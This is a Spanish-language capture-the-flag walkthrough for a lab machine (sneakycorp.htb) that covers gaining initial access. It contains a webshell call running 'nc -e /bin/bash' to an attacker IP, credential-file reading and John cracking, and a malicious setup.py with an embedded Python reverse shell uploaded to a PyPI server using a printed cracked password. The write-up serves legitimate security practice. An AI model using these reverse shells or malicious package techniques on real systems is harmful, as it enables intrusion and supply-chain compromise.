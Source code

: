 ## Vuln exploit & Gaining Access {-}

### Crear una reverse shell con s4vishell.php {-}

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos una reverse shell 

    ```bash
    dev.sneakycorp.htb/s4vishell.php?cmd=nc -e /bin/bash 10.10.14.20 443
    ```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Descubrimiento de la maquina {-}

```bash
ls -l
cd /home
cd low
ls -la
cd .ssh
ls
cat authorized_keys
ps -fawwx
```

Vemos la flag pero no podemos leerla. Huele a que nos tenemos que convertir al usuario **low**. Tambien vemos un recurso **Pypi** con
un fichero de credentiales typo `.htpasswd`

```cat
cat /var/www/pypi.sneakycorp.htb/.htpasswd
```

Vemos la contraseña del usuarion **pypi**. La copiamos en la maquina de attaquante y tratamos de romperla con **John**

Por ultimo se puede ver un nuevo subdominio llamado `pypi.sneakycorp.htb`, lo introduzimos en el `/etc/hosts`

### Crackeo con John {-}

Copiamos el contenido del fichero .htpasswd en un fichero llamado hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Hemos podido crackear la contraseña del usuario pypi


### Descubrimiento de la configuration NGINX {-}

Intentando connectarnos a la web por el subdominio `pypi.sneakycorp.htb`, vemos que hay una redirection automatica al domino normal.
Saviendo que estamos en frente de un **NGINX**, analyzamos como el reverse proxy esta configurado.

```bash
cd /etc/nginx
ls
cd sites-enabled
cat sneakycorp.htb
cat pypi.sneakycorp.htb
```

Hay ya vemos que para ir al subdominio `pypi.sneakycorp.htb` tenemos que passar por el puerto **8080**, y effectivamente si browseamos
la web con `pypi.sneakycorp.htb:8080` ya podemos ver la web del **pypi server**

### Crear un packete malicioso para pypi {-}

Como el servicio pypi es un server que tiene connectividad con el exterior, podemos seguir lo siguientes passos en la maquina de attackante.

```bash
mkdir pypi
cd !$
mkdir pwned
cd !$
touch __init__.py
touch setup.py
```

El fichero `__init__.py` se queda vacio y el contenido del `setup.py` seria el siguiente.

```python
import setuptools
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.20",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
)
```

La idea aqui es que cuando el pypi server ejecute el setup.py, queremos que nos entable una reverse shell. El codigo
de la reverse shell es de **monkey pentester** y la hemos retocado para que vaya en el fichero `setup.py`.

Configuramos el equipo para poder enviar el paquete al repositorio victima.

```bash
rm ~/.pypirc
vi ~/.pypirc
```

El contenido del fichero `.pypirc` seria

```bash
[distutils]
index-servers = remote

[remote]
repository = http://pypi.sneakycorp.htb:8080
username = pypi
password = soufianeelhaoui
```

Ahora podemos enviarlo

1. Nos ponemos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos el paquete al pypi server

    ```bash
    python3 setup.py sdist upload -r remote
    ```

1. Tenemos una shell pero primero nos a ejecutado desde nuestro proprio equipo

    - no ponemos una vez mas en escucha al puerto 443

        ```bash
        nc -nlvp 443
        ```

    - en el primero shell le damos a exit

Y ya esta

```bash
whoami
#Output
Law
```

Ya le podemos hacer un nuevo tratamiento de la TTY.

